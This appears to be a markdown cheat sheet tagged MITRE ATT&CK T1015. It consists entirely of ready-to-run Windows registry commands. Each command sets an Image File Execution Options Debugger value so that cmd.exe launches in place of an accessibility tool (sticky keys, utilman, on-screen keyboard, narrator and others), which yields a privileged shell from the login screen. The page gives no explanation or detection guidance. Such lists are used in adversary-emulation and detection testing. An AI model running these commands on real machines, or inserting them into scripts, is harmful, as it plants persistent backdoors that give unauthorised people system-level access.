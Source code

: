 ﻿## Accessibility Features

MITRE ATT&CK Technique: [T1015](https://attack.mitre.org/wiki/Technique/T1015)

### osk.exe swap

    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f

### sethc.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

### utilman.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

### magnify.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

### narrator.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

### DisplaySwitch.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\DisplaySwitch.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

### AtBroker.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\AtBroker.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
